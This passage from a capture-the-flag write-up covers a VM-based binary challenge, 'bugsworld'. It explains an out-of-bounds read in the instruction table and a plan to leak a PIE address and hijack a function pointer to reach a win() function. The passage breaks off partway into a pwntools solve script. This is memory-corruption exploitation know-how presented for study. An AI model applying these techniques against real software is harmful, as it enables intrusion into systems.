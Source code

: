 We can abuse this to index out of bounds to print program memory and potentially leak useful information.  

##### 3. instruction table indexing  
```c
 // run the program
  State state = {0};

  print_state(&state);
  usleep(25000);
  printf("\n\n");
  while (bytecode[state.pc] != INSTRUCTION_HALT) {
    instruction_table[bytecode[state.pc]](&state);
    print_state(&state);
    usleep(25000);
    printf("\n\n");
  }
```
We can see that we are using a table of pointers to functions to select the function we are calling.  
If we can potentially execute an instruction that is out of bounds of the instruction table, we might be able to call another pointer as if it was a function.

---- 

###Exploit Development  

Our final goal is to execute the `win()` function.  
We want to use vulnerability 3 to execute a pointer to the `win()` function, however there is no pointer to it in memory, so we have to construct it.  
Since the binary has PIE enabled, we first have to leak memory, so we will leverage vulnerability 2 to print a pointer to one of the functions in the instruction table to find the relative addressing.  
Then we will abuse the JUMP function to both write our pointer to `win()` in memory and to use vulnerability 3 to index a location of memory outside of the instruction table, where our pointer to win will be waiting to be executed.  

The plan is the following:  
1. Leak memory to find relative addressing of `win()`
2. Write a pointer to win in memory and also write an 'instruction' that will call that pointer if executed
3. Leverage the JUMP instruction to execute our invalid instruction.

Here is the final solve script:  
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host chall.pwnoh.io --port 13382 ./bugsworld
from pwn import *
import struct 

# Set up pwntools for the correct architecture
elf = ELF('./bugsworld')
context.binary = './bugsworld'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'chall.pwnoh.io'
port = int(args.PORT or 13382)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
```